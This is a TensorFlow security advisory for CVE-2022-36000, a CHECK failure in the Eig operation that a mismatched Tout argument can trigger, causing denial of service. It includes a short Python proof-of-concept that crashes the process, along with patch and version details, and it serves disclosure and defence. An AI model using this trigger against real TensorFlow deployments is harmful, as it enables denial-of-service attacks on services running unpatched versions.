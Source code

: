 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-136.md
## TFSA-2022-136: `CHECK` fail in `Eig`

### CVE Number
CVE-2022-36000

### Impact
`Eig` can be fed an incorrect `Tout` input, resulting in a `CHECK` fail that can trigger a denial of service attack.
```python
import tensorflow as tf
import numpy as np 
arg_0=tf.constant(value=np.random.random(size=(2, 2)), shape=(2, 2), dtype=tf.float32)
arg_1=tf.complex128
arg_2=True
arg_3=''
tf.raw_ops.Eig(input=arg_0, Tout=arg_1, compute_v=arg_2, name=arg_3)
```

### Patches
We have patched the issue in GitHub commit [aed36912609fc07229b4d0a7b44f3f48efc00fd0](https://github.com/tensorflow/tensorflow/commit/aed36912609fc07229b4d0a7b44f3f48efc00fd0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
